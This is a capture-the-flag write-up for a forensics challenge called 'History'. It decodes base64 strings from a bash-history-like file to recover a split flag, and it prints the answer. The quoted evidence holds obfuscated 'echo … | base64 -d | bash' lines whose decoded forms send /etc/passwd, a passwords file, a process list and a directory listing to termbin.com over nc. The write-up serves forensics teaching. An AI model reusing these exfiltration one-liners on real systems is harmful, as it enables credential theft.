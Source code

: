 
# Challenge Name: History  


![date](https://img.shields.io/badge/date-16.03.2021-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg) 
![misc category](https://img.shields.io/badge/category-forensics-lightgrey.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)


## Attached files
- [ctrl_H](ctrl_H)





## Detailed solution
The challenge talk about a file founded at one of the company's computers. The file represent a list of commands which is similar to a bash history file.  

Start looking at the file, we found some base64 encoding strings : 

````bash
echo aWRlaDEK | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
echo kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=
echo ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo= | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
````
Let's decode them : 

````
aWRlaDEK                                                             ideh1
cHMgYXggPiBwcm9jZXNzZXM=                                             ps ax > processes
Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK                     cat processes | nc termbin.com 1337
bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==                             ls -l | nc termbin.com 1337 
kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=                           DãU4ãÔww¥#U%DE#6sÓÐ
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj                           echo aWRlaHt0aDBzM19iNDV0M3JkNV ideh{th0s3_b45t3rd5
Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo=                 cat /etc/passwd | nc termbin.com 1337
Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==             cat passwords.txt | nc termbin.com 1337
````

We reconize the first part from the flag "ideh{th0s3_b45t3rd5" we can assume that the other part has been cut from the encoded base64. 
  
Decoding "kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=" has produce some random caracteres so probably it's the missing part.  

The CTRl_H from the challenge filename is a keyboard shortcut for bash used to delete the character before the cursor. So we know that a part has been deleted.   

Lets combine ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj and kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= and decode it : 

````
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVjkwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= 
-> echo aWRlaHt0aDBzM19iNDV0M3JkNV90aDN5X3N0MGwzX215X2Q0dDR9Cg==
-> ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4}
````

## Flag

```
ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4} 
```
